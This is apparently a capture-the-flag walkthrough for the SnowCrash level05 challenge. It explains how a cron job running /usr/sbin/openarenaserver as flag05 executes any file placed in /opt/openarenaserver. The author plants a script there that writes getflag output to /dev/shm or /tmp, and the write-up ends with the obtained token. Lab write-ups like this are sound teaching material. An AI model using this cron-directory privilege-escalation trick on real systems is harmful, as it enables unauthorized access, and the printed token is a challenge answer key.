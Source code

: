 # Filter results to find links with "level05" or "flag05"
find / 2>/dev/null | grep "level05"

# Result found
/var/mail/level05

# Cron job entry
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

# Explanation:
- */2 * * * * : This is the cron schedule syntax specifying how often the task should be executed.
- In this case, it's every two minutes, meaning "every minute divisible by two" (0, 2, 4, 6, ..., 58 minutes of each hour).

# su -c "sh /usr/sbin/openarenaserver" - flag05 :
- This is the command that will be executed every time the cron job runs.
- It uses su to run the following command as another user, specifically the user flag05.
- The -c parameter specifies the command to execute: sh /usr/sbin/openarenaserver, which runs the script as flag05.

# In summary, this cron entry indicates that every two minutes, the script /usr/sbin/openarenaserver will be run as user flag05.

level05@SnowCrash:/var/mail$ ls -la /usr/sbin/openarenaserver
# Output showing permissions
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver

# We can see that we have no permissions... so let's investigate further

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

# Explanation:
- The for loop iterates over all files in the /opt/openarenaserver/ directory.
- for each file $i found in this directory:
	- It sets the execution time limit to 5 seconds with ulimit -t 5.
	- It runs the file in a verbose mode using Bash (-x): bash -x "$i".
	- It deletes the file using rm -f "$i".

- This script will run all files in /opt/openarenaserver in a bash shell.
- Thus, we should create a bash script to call getflag in /opt/openarenaserver
- We cant execute the script by ourselves, a cron does it regurlaly


# Write the output to a file in /dev/shm (shared memory) OR /tmp/
level05@SnowCrash:~$ echo "getflag > /dev/shm/flag" > /opt/openarenaserver/getflag.sh
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh

OR
```bash
echo "getflag > /tmp/flagg" > /opt/openarenaserver/getflag.sh
chmod +x /opt/openarenaserver/getflag.sh
```


# View the result
cat /dev/shm/flag # => This reads the execution output from a file in shared memory

OR

cat /tmp/flagg

# Token obtained:
viuaaale9huek52boumoomioc
